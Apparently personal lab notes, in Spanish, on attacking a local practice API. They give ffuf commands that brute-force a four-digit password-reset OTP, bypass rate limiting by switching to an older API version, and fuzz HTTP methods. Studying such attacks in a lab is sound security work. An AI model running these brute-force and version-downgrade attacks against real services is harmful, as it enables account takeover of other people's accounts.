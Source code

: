Al parecer el codigo otp se conforma de 4 digitos asi que probablemente se pueda hacer un ataque de fuerza bruta y asi cambiar la contraseña pero antes representaremos el endpoint en postman

Haremos el mismo proceso mandando los datos en formato json por metodo post y listo ahora quedaria representado ese endpoint

![[Pasted image 20240216101803.png]]

Ahora ya podemos hacer el ataque de fuerza bruta con ayuda de fuff


```bash
ffuf -u http://localhost:8888/identity/api/auth/v3/check-otp -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -X POST -d '{"email":"juan@juan.com","otp":"FUZZ","password":"Hola1234#"}' -H "Content-Type: application/json" -p 1 -mc 200
```


Con este comando tratamos de hacer fuerza bruta probando todos los numeros posibles con 4 digitos y estos los mandamos al endpoint que verifica el otp por metodo post 


Lamentablemente esto no va a funcionar ya que al llegar a un numero intentos fallidos ya no dejara ingresar mas datos:


![[Pasted image 20240216131858.png]]

Al verificar la url al parecer estan usando la version 3 de la api pero quizas exista una version mas desactualizada la cual no limite el envio de datos y si asi es al mandar datos pero en este caso  la version 2 al parecer no tiene ningun limite de solicitudes y al mandar una nueva solicitud todo vuelve a funcionar

![[Pasted image 20240216133936.png]]

Ahora solo renovamos el codigo opt y ejecutamos el mismo comando pero usando la version 2

```bash
ffuf -u http://localhost:8888/identity/api/auth/v2/check-otp -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -X POST -d '{"email":"juan@juan.com","otp":"FUZZ","password":"Hola1234#"}' -H "Content-Type: application/json" -p 1 -mc 200
```

Y si algun numero nos da un codigo de estado 200 entonces ese sera el opt y cambiara la contraseña en este caso ha encontrado este: 


![[Pasted image 20240216150856.png]]

y listo ahora podemos inciar sesion con la nueva contraseña


# Cambiar metodos en una api

```bash
ffuf -u http://localhost:8888/workshop/api/shop/products -w /usr/share/seclists/Fuzzing/http-request-methods.txt -X FUZZ -p 1 -mc 401,200
```
